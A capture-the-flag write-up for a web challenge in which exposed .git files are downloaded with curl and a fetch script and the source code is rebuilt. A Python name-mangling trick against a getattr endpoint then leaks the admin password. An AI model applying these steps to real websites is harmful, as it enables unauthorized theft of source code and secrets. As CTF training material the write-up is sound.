 # File Storer (Web, 160 pts)

### [~$ cd ..](../)

> ```
> My friend made a file storage website that he says is super secure. Can you prove him wrong and get the admin password?
> ```

We then face a signup form:

![signup](signup.png)

and once registration is done, we get a formular allowing us to upload files:

![home](home.png)

At the beginning, I thought that it was the way to get the flag, but actually, it was the wrong path. Uploaded files are useless, and the important thing
is the location where they are stored. By uploading a file, its name appears in a list, and we can see that it stored at http://web2.angstromctf.com:8899/files/...

I then tried some likely names, and saw that index.py gave me a result, but not what I expected, because I received: "no! bad user! bad!".

Finally, I found the hidden .git folder, and it was actually the right way. Unfortunately, it was not possible to download it directly, I had to find a way
to rebuild locally a similar project:

> ```bash
> ~$ mkdir filestorer
> ~$ cd filestorer
> ~$ git init
> 	Initialized empty Git repository in .../filestorer/.git/
> ~$ mkdir -p {hooks,info,objects/{info,pack},refs/{heads,tags}}
> ~$ rm config
> ~$ wget http://web2.angstromctf.com:8899/files/.git/config
> ```

I then created folders used by git, and set up the same config as it was on the website. 

Then, I donwloaded some known files:

> ```bash
> ~$ cd .git
> ~$for file in HEAD config description info/exclude refs/heads/master; do
>for>	curl "http://web2.angstromctf.com:8899/files/.git/${file}" > "${file}";
> ~$ done;
> 	  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
>                                 Dload  Upload   Total   Spent    Left  Speed
>  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--    0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--  100    23  100    23    0     0    110      0 --:--:-- --:--:-- --:--:--   110
>  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
>                                 Dload  Upload   Total   Spent    Left  Speed
>  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--  100    93  100    93    0     0    461      0 --:--:-- --:--:-- --:--:--   462
>  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
>                                 Dload  Upload   Total   Spent    Left  Speed
>  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--    0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--  100    73  100    73    0     0     59      0  0:00:01  0:00:01 --:--:--    59
>  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
>                                 Dload  Upload   Total   Spent    Left  Speed
>  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--    0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--  100   240  100   240    0     0    193      0  0:00:01  0:00:01 --:--:--   193
>  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
>                                 Dload  Upload   Total   Spent    Left  Speed
>  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--    0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--    0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--  100    41  100    41    0     0     32      0  0:00:01  0:00:01 --:--:--    32
> ```

And then tried to get file names

> ```bash
> ~$ git log
>	fatal: bad object HEAD
> ~$ cat .git/refs/heads/master 
>	1233bdadb67c905af6516a2e1b94ebf32a0a2f61
> ```

by using this script [fetch](fetch)

> ```bash
>#!/bin/bash
>hash="${1}";
>folder="${hash:0:2}";
>file="${hash:2:38}";
>mkdir -p ".git/objects/${folder}";
>path=".git/objects/${folder}/${file}";
>curl -s "http://web2.angstromctf.com:8899/files/${path}" > "${path}";
> ```

and ran

> ```bash
> ~$ ./fetch 1233bdadb67c905af6516a2e1b94ebf32a0a2f61
> ```

As long as I got errors, I downloaded expected files:

> ```bash
> ~$ git log
>	commit 1233bdadb67c905af6516a2e1b94ebf32a0a2f61
	Author: kmh11 <hoppykev@gmail.com>
>	Date:   Tue Aug 29 21:09:49 2017 -0400
>
>		first commit
> ~$ git checkout -f
>	error: Could not read 5528cb84ba39060910e309688e2b340084623899
> ~$ ./fetch 5528cb84ba39060910e309688e2b340084623899
> ~$ git checkout -f                                 
>	fatal: unable to read tree 639c13293220ac138c16cddfa9bea84d16e0d1a7
> ~$ ./fetch 639c13293220ac138c16cddfa9bea84d16e0d1a7
> ~$ git checkout -f                                 
>	error: unable to read sha1 file of index.py (aa168eed25aa55fff21054a858329cb4e1187ff0)
>	error: unable to read sha1 file of requirements.txt (b8e1848501840d89d32c3f8eadfafe38a78f8203)
>	error: unable to read sha1 file of templates/index.html (4331a907733114461f8ce52a3076c48ac26c00c2)
>	error: unable to read sha1 file of templates/loggedout.html (29fff8b2c54b09cf0318dde83d1bcbdc1d6d22e8)
>	error: invalid object 100644 4331a907733114461f8ce52a3076c48ac26c00c2 for 'templates/index.html'
> ~$ ./fetch aa168eed25aa55fff21054a858329cb4e1187ff0
> ~$ ./fetch b8e1848501840d89d32c3f8eadfafe38a78f8203
> ~$ ./fetch 4331a907733114461f8ce52a3076c48ac26c00c2
> ~$ ./fetch 29fff8b2c54b09cf0318dde83d1bcbdc1d6d22e8
> ~$ git checkout -f                                 
> ```

I downloaded all files, but the most important one was [index.py](index.py), containg these lines:

> ```python
> ...
>class user:
>    def __init__(self, username, password):
>        self.username = username
>        self.__password = password
>        self.files = []
>    def getPass(self):
>        return self.__password
>
>users = {}
>
>users["admin"] = user("admin", os.environ["FLAG"])
> ...
>#beta feature for viewing info about other users - still testing
>@app.route("/user/<username>", methods=['POST'])
>def getInfo(username):
>    val = getattr(users[username], request.form['field'], None)
>    if val != None: return val
>    else: return "error"
>...
> ```

Then, I knew that the solution was to send a POST request on http://web2.angstromctf.com:8899/user/admin, with the parameter "field=__password", but
"__password", with the trailing underscores is a private variable, and it was impossible to read it with

> ```bash
>~$ curl http://web2.angstromctf.com:8899/user/admin -d "field=_user__password"
> ```

According to the [documentation](https://docs.python.org/3/tutorial/classes.html#tut-private), these variables are textually replaced with `_classname__var`. Then, I sent:

> ```
>~$ curl http://web2.angstromctf.com:8899/user/admin -d "field=_user__password"
>	actf{2_und3rsc0res_h1des_n0th1ng}
> ```
